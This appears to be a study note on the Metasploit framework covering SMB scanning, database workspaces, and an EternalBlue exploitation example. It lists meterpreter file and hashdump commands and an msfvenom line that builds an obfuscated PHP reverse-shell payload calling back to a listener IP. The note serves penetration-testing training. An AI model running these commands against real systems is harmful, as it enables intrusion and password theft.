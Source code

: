 **SMB Scans**
auxiliary modules that allow us to scan SMB in a corporate network would be `smb_enumshares` and `smb_version`. 


#### Metasploit Database
Metasploit has a database function to simplify project management and avoid possible confusion when setting up parameter values. 
- You will first need to start the PostgreSQL database, which Metasploit will use with the following command:  `systemctl start postgresql`
- Then you will need to initialize the Metasploit Database using the `msfdb init` command.
- You can now launch `msfconsole` and check the database status using the `db_status` command.
- `workspace -h` command to list available options for the `workspace` command.
- `workspace` command lists available workspaces.
- It is possible to add a workspace using the `-a` parameter or delete a workspace using the `-d` parameter, respectively. like
	- `workspace -a <name>`
	- `workspace -d <name>`
- e.g: Nmap scan using the `db_nmap`, all results will be saved to the database.
	- `hosts -h` and `services -h` commands show available options.
	- Once the host information is stored in the database, you can use the `hosts -R` command to add this value to the RHOSTS parameter. 
	- `services` command used with the `-S` parameter will allow you to search for specific services in the environment. `services -S net`.

#### Vulnerability scanning
Metasploit allows you to quickly identify some critical vulnerabilities that could be considered as “low hanging fruit”.  The term “low hanging fruit” usually refers to easily identifiable and exploitable vulnerabilities that could potentially allow you to gain a foothold on a system and, in some cases, gain high-level privileges such as root or administrator.

#### Exploitation
e.g exploitation for ==Windows 7 Professional 7601 Service==
- use *exploit/windows/smb/ms17_010_eternalblue* module
- manipulate the **File System** using meterpreter commands. like:
		- ls, cd, pwd, search, upload < file>, download  < file>, cat ...
- dump password hashes from the SAM (Security Account Manager) database using
	- `hashdump` command


### Msfvenom
Msfvenom, which replaced Msfpayload and Msfencode, allows you to generate payloads.

Msfvenom will allow you to access all payloads available in the  Metasploit framework. Msfvenom allows you to create payloads in many different formats (PHP, exe, dll, elf, etc.) and for many different target systems (Apple, Windows, Android, Linux, etc.).

**Encoders**
e.g: `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64`

- *msfvenom*: This is the command-line utility within the Metasploit Framework used for generating payloads.
- *-p php/meterpreter/reverse_tcp*: Specifies the payload to generate. In this case, it's generating a PHP Meterpreter reverse TCP payload. This payload will allow you to establish a reverse TCP connection to a specified listener (LHOST) upon execution.
- *LHOST=10.10.186.44:* Specifies the IP address of the listener (the system where you want the reverse connection to be established). Replace 10.10.186.44 with the IP address of your listener.
- *-f raw:* Specifies the output format of the payload. In this case, it's set to raw format.
- *-e php/base64:* Specifies the encoder to use. Here, it's using the PHP base64 encoder. This means the generated payload will be encoded with base64, which is commonly used for obfuscation purposes.

